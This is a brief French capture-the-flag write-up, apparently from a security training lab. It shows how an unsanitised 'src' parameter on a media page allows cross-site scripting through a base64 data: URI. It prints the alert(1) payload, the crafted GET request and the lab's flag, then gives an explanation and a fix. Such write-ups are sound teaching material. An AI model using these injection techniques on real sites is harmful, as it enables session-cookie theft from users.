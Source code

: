 # Recherches

1. En cliquant sur la dernière image de la NSA sur la page d'accueil on arrive sur une page affichant un média
2. En regardant l'URL on peut remarquer que la source est indiquée via le paramètre `src` qui est utilisé dans un object image HTML
3. Si son utilisation n'est pas protégée (ce qui est le cas ici) on peut faire du XSS
4. Payload:
   ```
   <script>alert(1)</script>
   ```
5. Base64: `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`
6. GET request: `/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

> FLAG: 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

# Explications

Encore une faille XSS, cette fois dans l'URL, elle pourrait permettre de récupérer des cookies de sessions.

# Corrections

Pour éviter cette vulnérabilité on pourrait utiliser une bdd et donc des ids qui pointeraient sur une image spécifique.